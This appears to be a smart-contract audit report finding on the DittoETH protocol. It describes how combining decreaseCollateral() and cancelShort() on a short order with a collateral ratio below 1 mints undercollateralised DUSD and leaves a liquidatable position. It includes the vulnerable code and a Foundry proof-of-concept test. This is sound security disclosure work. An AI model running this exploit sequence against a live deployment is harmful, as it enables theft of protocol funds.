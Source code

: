 ## [H] An attacker can mint free DUSD and liquidate the corresponding Short Record to earn liquidation rewards

### Summary

An attacker can use `decreaseCollateral()` function to reduce the collateral of a Short Recordn (SR) and `cancelOrder()` to cancel the corresponding Short Order having a collateral ratio < 1. The Short Record ends up having less collateral than debt and is now liquidatable.

### Description

A user can create a Short Order with a collateral ratio (CR) of less than 1. The protocol ensures that at least `minShortErc` in the Short Orders Short Record has enough collateral by filling the Short Record with collateral to cover `minShortErc` before the Short Order is matched or placed on the order book.

In addition, during the match the bid also provides equivalent collateral to the `ercDebt` it creates. So if the Short Order CR is 0.7 it ends up being 1.7 CR after matching.

By utilising the `cancelShort()` and `decreaseCollateral()` functions on a short Order with CR < 1, an attacker can create free DUSD and make the Short Record liquidatable.

The [cancelShort()](repos/2024-07-dittoeth/contracts/libraries/LibOrders.sol#L923-L995) function lets the caller cancel a Short Order. If the `ercDebt` is smaller than `minShortErc` as shown in line 953 below, it mints the difference to the shorter (i.e the address that created the Short Order) in line 982. The amount of collateral needed is calculated in line 960 and uses `cr`. `cr` is the collateral ratio and if it is less than 1 then the protocol would be minting DUSD with lesser collateral. But since it has already ensured that `minShortErc` has enough collateral in the Short Record before the Short Order was created, this shouldn't be a problem.

**[LibOrders.sol#L946-L976](repos/2024-07-dittoeth/contracts/libraries/LibOrders.sol#L946-L976)**

```solidity
953:             if (shortRecord.ercDebt < minShortErc) {
954:                 // @dev prevents leaving behind a partially filled SR under minShortErc
955:                 // @dev if the corresponding short is cancelled, then the partially filled SR's debt will == minShortErc
956:                 uint88 debtDiff = uint88(minShortErc - shortRecord.ercDebt); // @dev(safe-cast)
957:                 {
958:                     STypes.Vault storage Vault = s.vault[vault];
959:                     // @audit-issue the collateral could be bad if price moved.
960:                     uint88 collateralDiff = shortOrder.price.mulU88(debtDiff).mulU88(cr);
961: 
962:                     LibShortRecord.fillShortRecord(
963:                         asset,
964:                         shorter,
965:                         shortRecordId,
966:                         SR.FullyFilled,
967:                         collateralDiff,
968:                         debtDiff,
969:                         Asset.ercDebtRate,
970:                         Vault.dethYieldRate,
971:                         0
972:                     );
973: 
974:                     Vault.dethCollateral += collateralDiff;
975:                     Asset.dethCollateral += collateralDiff;
976:                     Asset.ercDebt += debtDiff;
977: 
978:                     // @dev update the eth refund amount
979:                     eth -= collateralDiff;
980:                 }
981:                 // @dev virtually mint the increased debt
982:                 s.assetUser[asset][shorter].ercEscrowed += debtDiff;
983:             } else {

```

The [decreaseCollateral()](ShortRecordFacet.sol#L83-L107) function lets the caller reduce the collateral he has in the Short Record.

An attacker can use `decreaseCollateral()` to reduce the collateral of the Short Record before cancelling. Thus, removing the collateral added for `minShortErc` and the protocol ends up minting DUSD with less Ethereum collateral.

The attacker earns the DUSD minted while providing less collateral value. The Short Record will become liquidatable and the attacker can further liquidate it to earn liquidation rewards.

### Impact

The protocol mints DUSD for free and pays liquidation rewards when the bad debt position is liquidated.

### Proof of Concept

To execute the POC the Short Record has to have debt so that `decreaseCollateral()` and `cancelShort()` can be called on it successfully. To do this, the POC creates two Short Orders, a normal Short Order and the other with CR < 1. It then uses a bid order to fill the normal Short Order and a tiny amount of the order with CR < 1.

The test can be run in the `Shorts.t.sol` file.

```solidity
    // Add the import below
    // import {STypes, MTypes, O, SR} from "contracts/libraries/DataTypes.sol";

    function test_StealDUSD() public {
        // set default Collateral Ratios
        vm.startPrank(owner);
        diamond.setInitialCR(asset, 170);
        diamond.setLiquidationCR(asset, 150);
        vm.stopPrank();

        initialCR = 170;
        uint80 price = DEFAULT_PRICE;
        uint88 amount = DEFAULT_AMOUNT;
        uint88 minShortErc = 2000 ether;

        // add a normal short order to fill the bid
        fundLimitShortOpt(price, amount, sender);
        // sender has 0 ethEscrowed
        assertEq(diamond.getVaultUserStruct(vault, sender).ethEscrowed, 0);
        depositEth(sender, price.mulU88(minShortErc).mulU88(1.7e18));
        uint initialEth = diamond.getVaultUserStruct(vault, sender).ethEscrowed;
        
        // creates a Short Order with CR = 0.7
        uint16[] memory shortHintArray = setShortHintArray();
        MTypes.OrderHint[] memory orderHintArray = diamond.getHintArray(asset, price, O.LimitShort, 1);
        vm.prank(sender);
        diamond.createLimitShort(asset, price, minShortErc, orderHintArray, shortHintArray, 70);        

        // creates a Bid which completely fills the first Short Order and only fills 
        // 100000 wei in the second WEI
        fundLimitBidOpt(price, amount +  100000, receiver);

        assertEq(diamond.getAssetUserStruct(asset, sender).ercEscrowed, 0);
        vm.startPrank(sender);
        // decreases collateral by 499999999999999958, the collateral added to cover minShortErc is
        // 500000000000000000, but we can't remove everything because the protocol requires us to cover
        // the tiny debt we created
        decreaseCollateral(3, 499999999999999958); 
        cancelShort(101);
        
        uint finalEth = diamond.getVaultUserStruct(vault, sender).ethEscrowed;
        uint ercEscrowed = diamond.getAssetUserStruct(asset, sender).ercEscrowed;
        // profit ~= 0.15 ether ( price.mulU88(ercEscrowed) - initialEth-finalEth )
        assertGt(price.mulU88(ercEscrowed), initialEth-finalEth); 
        // the attacker can also decide to liquidate the position and earn more rewards
        assertLt(diamond.getCollateralRatio(asset, getShortRecord(sender, 3)), 150e18);
    }
```



 
